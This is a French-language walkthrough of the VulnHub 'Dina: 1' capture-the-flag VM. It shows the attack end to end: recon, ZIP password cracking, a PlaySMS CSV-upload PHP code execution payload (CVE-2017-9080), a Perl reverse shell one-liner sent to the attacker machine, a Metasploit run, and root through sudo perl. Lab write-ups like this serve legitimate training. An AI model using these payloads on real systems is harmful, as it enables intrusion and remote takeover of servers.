


# Dina: 1

[Dina: 1](https://www.vulnhub.com/entry/dina-101,200/) est une machine virtuelle vulnérable, conçue par [Touhid Shaikh](https://touhidshaikh.com/) et publiée sur VulnHub au mois d'octobre 2017. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Dina : il s'agit de 192.168.56.101.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.101  08:00:27:3a:ec:d6      1      60  PCS Systemtechnik GmbH
```

Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Pour cette VM, seul le port 80 est ouvert. L'outil nmap a détecté la présence du fichier ```robots.txt```, qui contient cinq entrées, c'est une première piste à explorer...

```console
root@blinils:~# nmap -sT -sV -p- -A 192.168.56.101
--snip--
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries 
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
MAC Address: 08:00:27:3A:EC:D6 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
--snip--
```

Rien de particulier sur la page d'index, le bouton ```Envoyer``` renvoie vers le répertoire ```ange1```, vide. Les autres répertoires listés dans le fichier ```robots.txt```, à savoir ```angel1```, ```tmp``` et ```uploads```, sont eux aussi exempts de tout document, à l'exception de ```/nothing``` qui est une fausse page _404 Not Found_. On y récupère ainsi une liste de cinq mots de passe, qui nous serviront très certainement pour la suite du CTF.


```console
root@blinils:~# curl http://192.168.56.101/nothing/
<html>
<head><title>404 NOT FOUND</title></head>
<body>
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
<h1>NOT FOUND</html>
<h3>go back</h3>
</body>
</html>
```

À présent, y a-t-il d'autres répertoires présents sur le site ? Pour le savoir, l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb) va se servir d'une liste pré-établie de répertoires afin de déterminer l'arborescence du site. Il s'agit là d'une [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking), a contrario d'une [attaque par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consisterait à tester, de manière exhaustive, toutes les combinaisons possibles : aa, ab, ac... zy zz aaa aab... zzy zzz aaaa aaab... et ainsi de suite. DIRB dispose d'un [large panel de dictionnaires](https://github.com/digination/dirbuster-ng/tree/master/wordlists), ```directory-list-2.3-small.txt``` est le premier utilisé.

```console
root@blinils:~# dirb http://192.168.56.101 /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

--snip--
GENERATED WORDS: 87568

---- Scanning URL: http://192.168.56.101/ ----
+ http://192.168.56.101/index (CODE:200|SIZE:3618)
==> DIRECTORY: http://192.168.56.101/uploads/
==> DIRECTORY: http://192.168.56.101/secure/
+ http://192.168.56.101/robots (CODE:200|SIZE:102)
==> DIRECTORY: http://192.168.56.101/tmp/
==> DIRECTORY: http://192.168.56.101/nothing/
--snip--
```

Un nouveau répertoire ```/secure/``` fait son apparition, avec une archive ```backup.zip``` à l'intérieur.

## backup.zip, zip2john et backup-cred.mp3

On récupère le tout et...

```console
root@blinils:~# curl http://192.168.56.101/secure/backup.zip --output backup.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   336  100   336    0     0  25846      0 --:--:-- --:--:-- --:--:-- 25846

root@blinils:~# file backup.zip
backup.zip: Zip archive data, at least v?[0x333] to extract

root@blinils:~# unzip backup.zip
Archive:  backup.zip
   skipping: backup-cred.mp3         need PK compat. v5.1 (can do v4.6)

root@blinils:~# file backup-cred.mp3
backup-cred.mp3: empty
```

... oups, l'archive ZIP est protégée par un mot de passe. Peut-être par l'un de ceux trouvés précédemment ?

```console
root@blinils:~# curl http://192.168.56.101/nothing/pass --output pass.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57  100    57    0     0   3562      0 --:--:-- --:--:-- --:--:--  3352

root@blinils:~# cat pass.txt
#my secret
freedom
password
helloworld!
diana
iloveroot

root@blinils:~# fcrackzip --dictionary -p pass.txt -v -u backup.zip
found file 'backup-cred.mp3', (size cp/uc    150/   176, flags 1, chk 0000)

root@blinils:~# zip2john backup.zip > backup.john

root@blinils:~# john backup.john --wordlist=pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
freedom          (backup.zip)
1g 0:00:00:00 DONE (2018-10-10 11:11) 50.00g/s 4200p/s 4200c/s 4200C/s diana..iloveroot
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@blinils:~# john backup.john --show
backup.zip:freedom:::::backup.zip

1 password hash cracked, 0 left
```

L'outil [__fcrackzip__](https://korben.info/cracker-des-zip-rar-7z-et-pdf-sous-linux.html) n'a pas fonctionné ; heureusement, __zip2john__ est arrivé à la rescousse. Et il se trouve que le document extrait, ```backup-cred.mp3```, n'est en fin de compte qu'un fichier texte, qui nous redirige vers l'URL ```/SecreTSMSgatwayLogin```, c'est parti !

```console
root@blinils:~# 7z e backup.zip -pfreedom &>/dev/null

root@blinils:~# file backup-cred.mp3
backup-cred.mp3: ASCII text

root@blinils:~# cat backup-cred.mp3
I am not toooo smart in computer .......
dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******


url : /SecreTSMSgatwayLogin
```

## playSMS, CSV File Upload et gtfobins

L'URL ```http://192.168.56.101/SecreTSMSgatwayLogin/``` renvoie vers la mire de login de PlaySMS, qui semble être une plate-forme d'envoi et de réception de SMS. Après plusieurs tentatives, la connexion se fait avec les credentials ```touhid:diana```. Plusieurs vulnérabilités ont été publiées au sujet de cette application, certaines accompagnées d'exploits [dont l'un d'entre eux](https://www.exploit-db.com/exploits/42044/) a été rédigé par... Touhid Shaikh, le créateur de cette VM !

```console
root@blinils:~# searchsploit playsms
 ----------------------------------------------------------------------------------------- 
| Exploit Title                                                                           |
 ----------------------------------------------------------------------------------------- 
| PlaySMS - 'import.php' (Authenticated) CSV File Upload Code Execution (Metasploit)      |
| PlaySMS 1.4 - '/sendfromfile.php' Remote Code Execution / Unrestricted File Upload      |
| PlaySMS 1.4 - 'import.php' Remote Code Execution                                        |
| PlaySMS 1.4 - 'sendfromfile.php?Filename' (Authenticated) 'Code Execution (Metasploit)  |
| PlaySMS 1.4 - Remote Code Execution                                                     |
| PlaySms 0.7 - SQL Injection                                                             |
| PlaySms 0.8 - 'index.php' Cross-Site Scripting                                          |
| PlaySms 0.9.3 - Multiple Local/Remote File Inclusions                                   |
| PlaySms 0.9.5.2 - Remote File Inclusion                                                 |
| PlaySms 0.9.9.2 - Cross-Site Request Forgery                                            |
 ----------------------------------------------------------------------------------------- 
Shellcodes: No Result
```

L'une des vulnérabilités, qui porte l'identifiant [CVE-2017-9080](https://nvd.nist.gov/vuln/detail/CVE-2017-9080), réside dans la fonctionnalité d'upload de contacts. Via une IHM de l'application PlaySMS, le répertoire de contacts (nom, numéro de téléphone, e-mail) peut être peuplé à partir d'un fichier au format CSV.



Le principe de l'exploit consiste à uploader un fichier CSV malveillant contenant du code PHP, qui sera exécuté par le serveur distant. Point important, le code PHP doit être situé dans le _User-Agent_ du navigateur de l'attaquant, pour que l'exploit puisse fonctionner.

```console
root@blinils:~# cat RCE-playsms.csv
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

### Requête n°1 interceptée par Burp

```console
POST /SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=import HTTP/1.1
Host: 192.168.56.101
User-Agent: id; uname -a;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=list
Content-Type: multipart/form-data; boundary=---------------------------188761488325323
Content-Length: 448
Cookie: PHPSESSID=ptslj41of81uh73res2dke4h85
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------188761488325323
Content-Disposition: form-data; name="X-CSRF-Token"

46f86826de7eedc26692febf19a27b5b
-----------------------------188761488325323
Content-Disposition: form-data; name="fnpb"; filename="RCE-playsms.csv"
Content-Type: application/vnd.ms-excel

"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
-----------------------------188761488325323--
```

### Réponse n°1 interceptée par Burp

```console
HTTP/1.1 200 OK
Date: Sun, 11 Nov 2018 00:01:02 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
X-Frame-Options: SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 8765
Connection: close
Content-Type: text/html

--snip--
		
		<div id="main-content">
			
			<h2>Phonebook</h2>
			<h3>Import confirmation</h3>
			<div class=table-responsive>
			<table class=playsms-table-list>
			<thead><tr>
				<th width="5%">*</th>
				<th width="20%">Name</th>
				<th width="20%">Mobile</th>
				<th width="25%">Email</th>
				<th width="15%">Group code</th>
				<th width="15%">Tags</th>
			</tr></thead><tbody>
						<tr>
						<td>1.</td>
						<td>uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
</td>
						<td>22</td>
						<td></td>
						<td></td>
						<td></td>
						</tr>
				</tbody></table>
				</div>

--snip--
```



Ça a marché ! À présent, un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) va être mis en place, afin de créer une connexion sur le port 12345 entre le serveur Dina (192.168.56.101) et notre propre machine (192.168.56.102). Pour varier un peu les plaisirs, le _one-liner_ en Perl est choisi au détriment de Python.

### Requête n°2 interceptée par Burp

```console
POST /SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=import HTTP/1.1
Host: 192.168.56.101
User-Agent: perl -e 'use Socket;$i="192.168.56.102";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=list
Content-Type: multipart/form-data; boundary=---------------------------32075226656004
Content-Length: 448
Cookie: PHPSESSID=ptslj41of81uh73res2dke4h85
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------32075226656004
Content-Disposition: form-data; name="X-CSRF-Token"

1df086a9ab06c8807a95c6799aa25fab
-----------------------------32075226656004
Content-Disposition: form-data; name="fnpb"; filename="RCE-playsms.csv"
Content-Type: application/vnd.ms-excel

"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
-----------------------------32075226656004--
```

### "Réponse" n°2 sur la machine de l'attaquant

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 39973
/bin/sh: 0: can't access tty; job control turned off
$ id; uname -a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
$ 
```

### Et avec Metasploit ?

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...
msf > search playsms

Matching Modules
================

   Name                                       Disclosure Date  Rank       Check  Description
   ----                                       ---------------  ----       -----  -----------
   exploit/multi/http/playsms_filename_exec   2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution
   exploit/multi/http/playsms_uploadcsv_exec  2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution


msf > use exploit/multi/http/playsms_uploadcsv_exec

msf exploit(multi/http/playsms_uploadcsv_exec) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/http/playsms_uploadcsv_exec) > set PASSWORD diana
PASSWORD => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set USERNAME touhid
USERNAME => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(multi/http/playsms_uploadcsv_exec) > set TARGETURI /SecreTSMSgatwayLogin/
TARGETURI => /SecreTSMSgatwayLogin/

msf exploit(multi/http/playsms_uploadcsv_exec) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.102:4444 
[+] Authentication successful: touhid:diana
[*] Sending stage (38247 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.101:51654) at 2018-10-10 11:11:11 +0100

msf exploit(multi/http/playsms_uploadcsv_exec) > sessions

Active sessions
===============

  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  1         meterpreter php/linux  www-data (33) @ Dina  192.168.56.102:4444 -> 192.168.56.101:51654 (192.168.56.101)

msf exploit(multi/http/playsms_uploadcsv_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 1693 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ uname -a
uname -a
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
```

L'objectif est désormais de devenir root sur le serveur Dina. L'utilisateur ```www-data``` est autorisé à exécuter la commande ```/usr/bin/perl``` via sudo sans mot de passe. Un petit tour sur l'excellent site [__GTFOBins__](https://gtfobins.github.io/gtfobins/perl/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec perl.

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
	
	
$ sudo /usr/bin/perl -e 'exec "/bin/bash";'


id
uid=0(root) gid=0(root) groups=0(root)

wc -c /root/flag.txt
639 /root/flag.txt
```

## Conclusion

Plutôt sympa, cette VM. Si l'utilisation de Metasploit permet un gain de temps considérable, il est tellement plus plaisant et gratifiant de décortiquer et de comprendre l'exploit sous-jacent, avec un shell à la clé et sans __meterpreter__ ni __msfvenom__. Le passage user-root est toujours dans la même veine des précédents CTF — une mauvaise gestion des privilèges d'administration via le fichier ```/etc/sudoers``` — mais cela dit, ce n'est pas du ```(ALL) ALL``` cette fois-ci. Merci beaucoup à [Touhid Shaikh](https://touhidshaikh.com/) pour sa création !
